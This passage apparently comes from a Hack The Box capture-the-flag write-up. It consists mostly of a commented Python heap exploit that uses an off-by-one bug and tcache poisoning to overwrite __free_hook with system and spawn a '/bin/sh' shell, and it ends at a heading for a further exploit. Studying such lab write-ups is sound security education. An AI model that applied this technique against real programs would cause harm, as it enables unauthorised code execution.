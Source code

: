 ```python
delete(0)
add('\x48', 0x110, '\x48' * 0x110) # first pair

# free() the 1st pair to fill up tcache[0x40] and tcache[0x120] bins respectively.
delete(0)

# free() and add the 9th pair
# Make use of the off-by-one bug to change the size of the 0x120 chunk to 0x100.
delete(8)
add('\x49', 0x28, '\x49' * 0x28)

# free() and add the first pair
# Add "/bin/sh\x00" for later use.
delete(0)
add('\x49', 0x28, shell + '\x49' * (0x28 - len(shell)))

# Add and free() the 9th pair to fill up tcache[0x100] bin.
# We skip the second malloc() because of the re-sized pointer.
add('\x49', 0x0, '')
delete(8)

# At this point, this is what the tcache bins look like.
# tcache[0x40]  ->  0x604a40
# tcache[0x100] ->  0x604d50
# tcache[0x120] ->  0x604d50
#
# Add and free() the 9th pair.
# The first malloc() grabs from tcache[0x40] while the second malloc() grabs from tcache[0x120]
add('\x49', 0x110, '\x49' *  0x110)
delete(8)

# At this point, this is what the tcache bins look like.
# tcache[0x40]  ->  0x604a40
# tcache[0x100] ->  0x604d50  ->  0x604d50
#
# Add a 9th pair to grab a chunk from tcache[0x40] and tcache[0x100] bins respectively.
# The FD of the chunk from tcache[0x100] bin is changed to __free_hook.
add('\x49', 0xf0, p64(free_hook) + '\x49' * 0xe8)

# At this point, this is what the tcache bins look like.
# tcache[0x100]  ->  0x604d50  ->  0x7ffff7fc85a8
# Add a 10th and 11th pair to grab 2 chunks from tcache[0x100] bin.
add('\x50', 0xf0, '\x50' * 0xf0)
add('\x51', 0xf0, p64(system) * 0xe8) # overwrite __free_hook to system

# We got shell!
delete(0)
r.interactive()
```

### Exploiting `Protobs`


[1]: https://www.hackthebox.eu/home/machines/profile/221
[2]: https://www.hackthebox.eu/home/users/profile/13531
[3]: https://www.hackthebox.eu/home/users/profile/64903
[4]: https://www.hackthebox.eu/